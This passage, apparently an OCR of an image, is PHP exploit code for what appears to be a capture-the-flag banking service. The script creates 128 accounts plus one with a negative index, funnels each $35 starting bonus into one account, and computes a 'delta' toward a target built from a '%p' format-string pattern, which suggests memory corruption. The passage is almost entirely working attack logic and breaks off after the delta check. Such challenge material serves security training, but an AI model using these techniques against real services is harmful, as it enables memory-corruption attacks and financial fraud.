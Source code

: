 ```php
		$id = (int)readLine($fp);

	expectLine($fp, "We have granted you a $35 starting bonus.");

	return $id;
}

function transfer($fp, int $from, int $to, int $amount)
{
	fprintf($fp, "3 %d %d %d\n", $from, $to, $amount);
}

function transfer_drain($fp)
{
	menu($fp);
	expect($fp, "Which account do you want to transfer from? ");
	expect($fp, "Which account do you want to transfer to? ");
	expect($fp, "How much money do you want to transfer? ");
	expectLine($fp, "Transaction created!");
}

function issue($fp, int $idx, string $data)
{
	fprintf($fp, "5 %d %s\n", $idx, $data);
}

function issue_drain($fp)
{
	menu($fp);
	expect($fp, "Which account does this issue concern? ");
	expect($fp, "Please describe your issue (1000 charaters): ");
	expectLine($fp, "Thanks! Our support technicians will help you shortly.");
}

printf("[*] Create accounts\n");
for($i = 0; $i < 0x80; $i++)
	create($fp, $i);

for($i = 0; $i < 0x80; $i++)
	create_drain($fp, $i);

// Negative account
create($fp, 128);
create_drain($fp, -128);

printf("[*] Gather money\n");
for($i = 1; $i < 0x80; $i++)
	transfer($fp, $i, 0, 35);

for($i = 1; $i < 0x80; $i++)
	transfer_drain($fp);


printf("[*] Transfer money\n");
$balance = unpack("P", "________")[1];
$target  = unpack("P", "%p______")[1];
$delta   = $target - $balance;

printf("[+] balance: %016X\n", $balance);
printf("[+] target:  %016X\n", $target);
printf("[+] delta:   %d\n",    $delta);
printf("\n");
assert($delta >= 0);
```